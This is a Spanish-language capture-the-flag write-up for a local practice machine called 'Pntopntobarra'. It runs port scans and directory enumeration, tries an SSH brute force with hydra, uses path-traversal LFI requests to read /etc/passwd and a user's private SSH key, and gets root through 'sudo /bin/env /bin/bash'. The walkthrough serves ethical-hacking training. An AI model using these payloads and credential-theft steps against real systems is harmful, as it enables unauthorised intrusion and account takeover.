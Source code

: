 # 📘 Informe de Pentesting – Máquina *Pntopntobarra*

* **Dificultad:** Fácil
* **Objetivo:** Obtener acceso root en la máquina
* **Descripción:** Máquina vulnerable desplegada en entorno local para prácticas de hacking ético.

![Logo](/Pntopntobarra/Imagenes/Logo.png)

---

## 🧱 Despliegue de la Máquina

La máquina fue descargada como archivo comprimido. Se utilizó el siguiente comando para descomprimirla:

```bash
unzip paradise.zip
```

Luego, se desplegó la máquina con el script de automatización proporcionado:

```bash
sudo bash auto_deploy.sh pntopntobarra.tar
```

![Despliegue](/Pntopntobarra/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Para comprobar que la máquina está activa, se utilizó el comando `ping`:

```bash
ping -c 4 172.17.0.2
```

![Ping](/Pntopntobarra/Imagenes/Ping.jpeg)

---

## 🔍 Reconocimiento de Puertos

Se ejecutó un escaneo completo de puertos con `nmap` para identificar servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se encontraron abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

![Puertos](/Pntopntobarra/Imagenes/Puertos.jpeg)

Luego, con mi script `extractPorts`, extraje los puertos relevantes y realicé un escaneo más profundo para conocer los servicios y versiones:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios](/Pntopntobarra/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis del Sitio Web (Puerto 80)

Al ingresar a la página web en el puerto 80, se muestra un mensaje alarmante simulando un ataque o virus, como una técnica de **ingeniería social** para asustar al usuario.

![Página Principal](/Pntopntobarra/Imagenes/Pagina.jpeg)

Esta página continúa mostrando una simulación de eliminación de archivos del sistema.

![Advertencia rm -rf](/Pntopntobarra/Imagenes/Advertenciarm.jpeg)

---

## 📁 Enumeración de Directorios Web

Se utilizó `gobuster` para buscar directorios y archivos ocultos en el servidor web:

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](/Pntopntobarra/Imagenes/Gobuster.jpeg)

No se encontraron nuevos archivos útiles directamente, pero la exploración llevó a `ejemplos.php`.

---

## 🔐 Ataque de Fuerza Bruta SSH (sin éxito)

Intenté un ataque de fuerza bruta al servicio SSH con `hydra`, utilizando un usuario sospechoso (`nico`) y el diccionario `rockyou.txt`, pero no tuvo éxito:

```bash
hydra -l nico -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 20
```

![Hydra](/Pntopntobarra/Imagenes/Hydra.jpeg)

---

## 🐚 Vulnerabilidad LFI (Local File Inclusion)

En `ejemplos.php` se detectó un parámetro vulnerable `images=` que permitía la inclusión de archivos del sistema mediante rutas relativas. Se probó con:

```http
http://172.17.0.2/ejemplos.php?images=../../../../etc/passwd
```

Esto confirmó una **vulnerabilidad LFI**, mostrando el contenido del archivo `/etc/passwd`, incluyendo usuarios como `nico` y `root`.

![LFI detectado](/Pntopntobarra/Imagenes/Vulnerabilidad.jpeg)

---

## 🔑 Obtención de la Clave Privada SSH

Aprovechando el LFI, accedí al archivo de clave privada del usuario `nico`:

```http
http://172.17.0.2/ejemplos.php?images=../../../../home/nico/.ssh/id_rsa
```

![Clave SSH en la web](/Pntopntobarra/Imagenes/codigo.jpeg)

Se copió todo el contenido de la clave sin añadir espacios innecesarios:

```bash
nano id_rsa
chmod 600 id_rsa
```

![Clave Copiada](/Pntopntobarra/Imagenes/Key.jpeg)

Se intentó el acceso por SSH usando esta clave:

```bash
ssh -i id_rsa nico@172.17.0.2
```

¡Acceso exitoso como usuario *nico*!

![Acceso SSH](/Pntopntobarra/Imagenes/SSH.jpeg)

---

## 🚀 Escalada de Privilegios

Con el comando `sudo -l` verifiqué qué comandos podían ejecutarse como root. Se reveló que se puede usar `/bin/env` con privilegios elevados:

```bash
sudo -l
```

El binario `env` puede ejecutarse como root, lo que permite invocar una shell directamente:

```bash
sudo /bin/env /bin/bash
```

Esto concede acceso a una shell **como usuario root**.

![Acceso root](/Pntopntobarra/Imagenes/root.jpeg)

---

## 🏁 Conclusión

La máquina *Pntopntobarra* presenta una secuencia clara de vectores de ataque:

1. LFI que expone archivos internos.
2. Acceso a la clave privada de SSH.
3. Escalada de privilegios mediante un binario mal configurado (`env`).

Este escenario es ideal para principiantes, ya que permite practicar reconocimiento, explotación web, obtención de credenciales y escalada de privilegios de forma guiada y realista.

